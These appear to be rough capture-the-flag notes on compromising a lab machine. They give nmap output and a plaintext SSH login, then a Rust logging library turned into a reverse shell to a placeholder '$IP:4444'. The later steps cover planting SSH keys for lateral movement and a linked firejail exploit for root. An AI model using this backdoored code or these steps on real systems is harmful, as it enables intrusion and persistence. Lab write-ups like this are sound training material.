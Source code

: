 
Nmap scanning:

~~~
nmap 10.10.11.218 -sC -sV 
~~~

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-28 09:39 EDT
Nmap scan report for 10.10.11.218
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
|_http-title: 400 The plain HTTP request was sent to HTTPS port
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.36 seconds
~~~

ssh id and password

~~~
silentobserver:quietLiketheWind22

~~~


~~~
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
    let sock = TcpStream::connect("$IP:4444").unwrap();

    // a tcp socket as a raw file descriptor
    // a file descriptor is the number that uniquely identifies an open file in a computer's operating system
    // When a program asks to open a file/other resource (network socket, etc.) the kernel:
    //     1. Grants access
    //     2. Creates an entry in the global file table
    //     3. Provides the software with the location of that entry (file descriptor)
    // https://www.computerhope.com/jargon/f/file-descriptor.htm
    let fd = sock.as_raw_fd();
    // so basically, writing to a tcp socket is just like writing something to a file!
    // the main difference being that there is a client over the network reading the file at the same time!

    Command::new("/bin/bash")
        .arg("-i")
        .stdin(unsafe { Stdio::from_raw_fd(fd) })
        .stdout(unsafe { Stdio::from_raw_fd(fd) })
        .stderr(unsafe { Stdio::from_raw_fd(fd) })
        .spawn()
        .unwrap()
        .wait()
        .unwrap();
}
~~~


change the ip and port in the file send the file to the ssh as lib.rs

and the cp the lib.rs to this directory /opt/crates/logger/src in the ssh 

by we get the shell

![[Screenshot from 2023-10-30 09-31-09 2.png]]

create the ssh id with the ss-keygen tool in the .ssh directory

and send the id_rsa file to atlas user shell and the mv the file id_rsa as the name of authorized_keys  
horizontal privelages of other user
with this we take the ssh of the atlas 

In this ssh  send the exploit.py file and te run the file in ssh 
https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25

![[Screenshot from 2023-10-30 09-31-46.png]]

open second ssh for the atlas in the ssh enter the firejail id 
and give the su and we get the root access

![[Screenshot from 2023-10-30 09-30-49.png]]



https://doc.rust-lang.org/std/process/struct.Command.html#method.new


